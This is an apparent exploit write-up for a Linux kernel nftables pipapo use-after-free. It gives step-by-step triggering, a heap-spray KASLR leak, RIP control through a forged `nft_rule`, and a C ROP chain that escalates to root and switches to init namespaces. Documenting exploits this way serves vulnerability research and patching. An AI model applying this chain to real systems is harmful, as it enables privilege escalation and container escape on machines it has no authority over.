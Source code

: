 ### Triggering Vulnerability

If elements with the same key exist in a pipapo set, `nft_pipapo_remove` may remove the wrong element. As a result, the deactivated element remains in the set, causing a UAF.

We can trigger the vulnerability as follows:

- Create a chain `Base`.
- Create a pipapo set `Vulnerable`.
- Create a set element with key k in `Vulnerable`. We set the timeout of element to 1.
- Create a set element with key k in `Vulnerable` again. This is allowed because the previous element has timed out. Repeat this step 256 times.
- A timeouted element is left in the set due to an invalid remove function when it is gc'd.
- Delete set elem with key k. This results in a double free on the set element.

### KASLR Bypass

The leak process is as follows:

- Create a chain `Base`.
- Create a pipapo set `Vulnerable`.
- Create a set element with key k in `Vulnerable`. We set the timeout of element to 1. The set element is allocated into `kmalloc-cg-256`.
- Create a set element with key k in `Vulnerable` again. This is allowed because the previous element has timed out. Repeat this step 256 times.
- A timeouted element is left in the set due to an invalid remove function when it is gc'd.
- Spray `table->udata` into `kmalloc-cg-256` to place it at freed set element.
- Delete set `Vulnerable`. This results in a free on the sprayed `table->udata` because of double free.
- Spray the rules with the count expr into `kmalloc-cg-256`.
- We can get the kernel base address by reading ops address of count expr through `table->udata`

### RIP Control

RIP can be controlled as follows:

- Free the `table->udata` that was sprayed in an earlier step. This will free the previously sprayed `nft_rule`.
- Spray a fake `nft_rule` object using `table->udata`. We can control the RIP by setting the `rule->data->ops` field to the address of the CPU entry area.
- Set up the CPU entry area to contain the address of stack pivot gadget.
- Delete the fake rule, which dereferences the crafted ops pointer. As a result, the RIP is controlled in `nft_rule_expr_deactivate` [1].

```c
void nft_rule_expr_deactivate(const struct nft_ctx *ctx, struct nft_rule *rule,
                enum nft_trans_phase phase)
{
    struct nft_expr *expr;

    expr = nft_expr_first(rule);
    while (nft_expr_more(rule, expr)) {
        if (expr->ops->deactivate)
            expr->ops->deactivate(ctx, expr, phase);     // [1]

        expr = nft_expr_next(expr);
    }
}
```

### Post RIP

Store the ROP payload below in the userdata of the fake rule allocated in the `kmalloc-cg-256`, and then execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```